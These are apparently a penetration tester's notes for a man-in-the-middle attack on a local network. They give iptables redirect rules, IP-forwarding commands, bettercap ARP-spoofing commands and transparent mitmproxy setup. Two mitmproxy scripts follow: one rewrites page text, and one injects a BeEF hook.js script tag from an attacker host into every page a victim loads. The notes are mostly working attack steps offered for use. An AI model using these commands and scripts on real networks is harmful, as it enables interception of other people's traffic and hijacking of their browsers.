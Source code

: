 Listen network:
 
Redirect http and https traffic to port 8080:
 
	iptables -t nat -F
	iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
	iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
	sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
	echo "1" > /proc/sys/net/ipv6/conf/all/forwarding
	echo "0" > /proc/sys/net/ipv4/conf/all/send_redirects
 
Active ARP spoofing:
 
	bettercap
	set arp.spoof.targets 10.0.2.4
	set arp.spoof.fullduplex true
	arp.spoof on
 
Active MITM listening:
 
	mitmproxy --mode transparent --listen-host 10.0.2.5 #kali ip
 
Mitmdump & Beef:
 
Creation and injection Python:
 
	nano myscript.py
 
from mitmproxy import http
 
def response(flow: http.HTTPFlow):
    reflector = b"HACKED"
    flow.response.content = flow.response.content.replace(b"Science", reflector)
 
	mitmdump -s myscript.py --mode transparent --listen-host 10.0.0.4 --anticache
 
Install and use browser with beef:
 
	nano myscript.py
 
from mitmproxy import http
 
def response(flow: http.HTTPFlow):
    reflector = bytes("<script src='http://10.0.2.5:3000/hook.js'></script>", "UTF-8")
    flow.response.content = flow.response.content.replace(b"</head>", reflector)
 
	mitmdump -s myscript.py --mode transparent --listen-host 10.0.0.4 --anticache
 
Bettercap:
 
	net.show
	net.probe on
	net.show
	ticker on
 
	bettercap -T 10.1.1.12
 
https://www.kalitut.com/2019/04/how-to-install-and-use-bettercap.html
 
https://github.com/aancw/bettercap-ng/blob/master/caplets/beef-inject.js
